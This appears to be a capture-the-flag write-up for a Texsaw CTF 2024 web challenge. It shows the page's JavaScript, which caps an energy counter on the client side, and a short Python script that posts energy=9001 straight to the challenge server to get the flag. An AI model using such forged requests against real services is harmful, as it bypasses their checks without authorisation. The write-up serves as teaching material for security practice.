 ```yaml
---
layout: writeup
category: Texsaw-CTF-2024
chall_description:
points: 50
solves: -1
tags: Texsaw-CTF-2024 web web/post
date: 2024-3-25
comments: false
---
```


Help Goku get over 9000 energy to defeat his enemy Vegeta and save the world.  

3.23.56.243:9005  

---

Visit the site. Head to Chrome Dev Tools --> Sources. Here's the .js file controlling it all:  

```js

let currentEnergy = 0;

function gatheringEnergy(){
    currentEnergy++;
    $("#energycount").html(`${currentEnergy}`);
    if(currentEnergy == 10)
    {
        alert("out of energy try again :(")
        currentEnergy = 0;
        $("#energycount").html(0);
        
    }
    else if (currentEnergy > 9000)
    {
        
        $.ajax({
            type:"POST",
            url:"kamehameha.php",
            data:{energy: currentEnergy},
            success: function(flag){
                alert(`${flag}`);
            },
            error: function(responseText,status, error){
                console.log(`Tell the infrastructure team to fix this: Status = ${status} ; Error = ${error}`);
            }


        })
        
    }
}

```

So it's impossible to actually get to over 9000. However, we can just send a POST request ourselves to kamehameha.php! Here's a script that does just that:  

```py
from requests import post

d = dict()
d["energy"] = 9001
res = post("http://3.23.56.243:9005/kamehameha.php", d).text
print(res)
```

And we get the flag!  

    texsaw{y0u_th0ught_th1s_w4s_4_fl4g_but_1t_w4s_m3_d10}